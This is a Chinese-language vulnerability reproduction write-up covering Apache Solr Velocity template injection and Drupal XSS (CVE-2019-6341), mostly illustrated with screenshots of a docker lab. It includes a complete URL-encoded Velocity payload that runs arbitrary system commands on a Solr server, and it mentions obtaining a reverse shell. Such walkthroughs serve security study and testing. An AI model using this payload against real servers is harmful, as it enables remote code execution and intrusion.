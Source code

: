 通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称

![image-20200907112558561](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200907112558561.png)



之后，注入Velocity模板即可执行任意命令

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![image-20200907113002235](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200907113002235.png)

执行反弹ll  

![image-20200907113748641](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200907113748641.png)





### CVE-2019-6341 Drupal XSS漏洞

##### 漏洞简介及影响范围

Drupal诞生于2000年，是一个基于PHP语言编写的开发型CMF（内容管理框架）。在某些情况下，通过文件模块或者子系统上传恶意文件触发XSS漏洞。

影响范围：在7.65之前的Drupal 7版本中； 8.6.13之前的Drupal 8.6版本; 8.5.14之前的Drupal 8.5版本

##### 利用过程

环境搭建

![image-20200908112732518](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908112732518.png)



![image-20200908112942486](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908112942486.png)

![image-20200908113233043](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908113233043.png)

修改poc 并执行 （原poc port改为8080）

![image-20200908131842644](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908131842644.png)

进入docker 查看上传的文件

![image-20200908131924351](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908131924351.png)

浏览器访问  chrome&firefox可能会拦截 更换浏览器访问出现弹窗

![image-20200908131942195](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200908131942195.png)
